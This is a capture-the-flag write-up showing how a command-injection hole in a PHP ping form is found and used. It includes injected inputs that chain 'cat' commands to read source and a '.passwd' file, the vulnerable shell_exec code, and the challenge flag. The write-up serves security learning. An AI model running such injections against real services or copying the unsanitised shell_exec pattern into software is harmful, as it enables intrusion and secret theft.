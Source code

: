 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 9
---
```


> Find a vulnerability in this service and exploit it.

> The flag is on the `index.php` file.

![1](https://github.com/Knign/Write-ups/assets/110326359/d1e2fbf5-dde6-4680-9880-434f849e9474)

Let's input `127.0.0.1` as the input field is suggesting.

![2](https://github.com/Knign/Write-ups/assets/110326359/46f87312-d86a-4939-850e-15b020fbf31a)

We can see that our input is used to execute a `ping` command.

We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.

## User Input
```
127.0.0.1 ; cat index.php
```

![3](https://github.com/Knign/Write-ups/assets/110326359/f9499c2f-64bc-4eb4-939f-37f2c9975779)

Looks like our input was processed properly. Let's check the source code.

![4](https://github.com/Knign/Write-ups/assets/110326359/bd7601d5-dff6-4840-94ae-b3d43248550b)

The source code reveals an interesting piece of code.
## PHP code
```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($_POST["ip"]).

The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable. 

Let's modify our input to `cat` the `.passwd` file.

## User Input
```
127.0.0.1 ; cat .passwd
```

![5](https://github.com/Knign/Write-ups/assets/110326359/852de8c6-c743-4a7f-bcc9-01dbd8f42823)

## Flag
```
S3rv1ceP1n9Sup3rS3cure
```
